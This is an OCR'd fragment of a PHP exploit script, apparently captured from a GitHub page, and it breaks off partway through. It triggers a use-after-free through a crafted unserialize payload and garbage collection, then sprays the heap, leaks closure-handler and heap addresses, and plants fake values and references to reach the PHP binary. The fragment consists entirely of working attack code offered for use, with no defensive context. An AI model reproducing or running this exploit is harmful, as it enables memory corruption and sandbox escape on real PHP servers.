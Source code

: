 	}


	$n\_alloc = 10; # increase this value if you get segfaults


	$contiguous = \[\];

	for($i = 0; $i < $n\_alloc; $i++)

	$contiguous\[\] = str\_repeat('A', 79);


	$poc = 'a:4:{i:0;i:1;i:1;a:1:{i:0;O:4:"ryat":2:{s:4:"ryat";R:3;s:4:"chtg";i:2;}}i:1;i:3;i:2;R:5;}';

	$out = unserialize($poc);

	gc\_collect\_cycles();


	$v = \[\];

	$v\[0\] = ptr2str(0, 79);

	unset($v);

	$abc = $out\[2\]\[0\];


	$helper = new Helper;

	$helper->b = function ($x) { };


	if(strlen($abc) == 79) {

	die("UAF failed");

	}


	\# leaks

	$closure\_handlers = str2ptr($abc, 0);

	$php\_heap = str2ptr($abc, 0x58);

	$abc\_addr = $php\_heap - 0xc8;


	\# fake value

	write($abc, 0x60, 2);

	write($abc, 0x70, 6);


	\# fake reference

	write($abc, 0x10, $abc\_addr + 0x60);

	write($abc, 0x18, 0xa);


	$closure\_obj = str2ptr($abc, 0x20);


	$binary\_leak = leak($closure\_handlers, 8);
